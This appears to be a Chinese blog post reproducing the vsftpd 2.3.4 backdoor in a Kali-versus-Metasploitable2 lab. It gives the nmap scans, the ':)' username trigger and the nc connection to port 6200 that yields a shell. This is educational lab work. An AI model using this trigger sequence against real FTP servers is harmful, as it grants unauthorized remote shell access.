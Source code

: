 ```yaml
---
title: 漏洞复现(vsftpd 2.3.4)
date: 2021-11-01 16:46:34
tags: 漏洞复现
cover: https://raw.githubusercontent.com/todis21/image/main/img/wallhaven-k96e6m.jpg
---
```


# 漏洞复现(vsftpd 2.3.4)

## 工具：

攻击机：kali: 192.168.118.128

靶机：Metasplotable2-Linux: 192.168.118.131

## 开始复现

打开kali终端，执行以下命令

```
nmap 192.168.118.0/24
```

![屏幕截图 2021-11-01 165841](https://raw.githubusercontent.com/todis21/image/main/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202021-11-01%20165841.png)



发现靶机(192.168.118.131)打开着21端口 



```
nmap -sV 192.168.118.131
```

![image-20211101170431983](https://raw.githubusercontent.com/todis21/image/main/img/image-20211101170431983.png)



这里可以看到靶机的ftp服务的版本信息是vsftpd 2.3.4，漏洞就在这里

```
ftp 192.168.118.131 21
```

```
用户名 root:)//':)'是触发条件
密码： sssss //密码可乱来
```

![image-20211101172804027](https://raw.githubusercontent.com/todis21/image/main/img/image-20211101172804027.png)

执行以上命令后发现靶机打开了6200端口，这就是个后门

![image-20211101172714302](https://raw.githubusercontent.com/todis21/image/main/img/image-20211101172714302.png)

然后直接连接这个端口

```
nc 192.168.118.131 6200
```

成功连接,后门建立了shell，可以开始执行命令

![image-20211101173201531](https://raw.githubusercontent.com/todis21/image/main/img/image-20211101173201531.png)

复现结束

